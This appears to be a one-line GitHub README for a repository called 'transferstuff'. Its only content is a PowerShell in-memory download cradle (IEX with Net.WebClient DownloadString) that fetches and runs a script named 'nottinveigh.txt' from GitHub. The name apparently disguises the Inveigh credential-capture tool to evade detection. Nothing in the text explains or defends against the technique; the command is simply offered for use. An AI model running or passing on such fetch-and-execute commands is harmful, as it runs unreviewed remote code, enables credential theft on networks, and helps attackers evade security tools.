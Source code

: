 # transferstuff
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/exabyt3/transferstuff/main/nottinveigh.txt")
